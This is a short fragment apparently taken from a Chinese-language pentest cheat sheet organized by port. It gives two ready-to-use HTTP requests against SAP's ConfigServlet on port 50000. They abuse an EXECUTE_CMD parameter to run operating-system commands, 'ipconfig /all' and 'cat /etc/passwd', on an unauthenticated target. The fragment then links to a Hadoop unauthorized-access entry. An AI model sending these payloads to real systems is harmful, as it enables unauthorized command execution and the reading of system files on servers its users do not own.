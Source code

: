 `SAP`

- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all`
- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cat /etc/passwd`

---

## 50010/50030/50070

`Hadoop`

- [Hadoop未授权访问](../软件服务安全/CS-Exploits.md#hadoop)
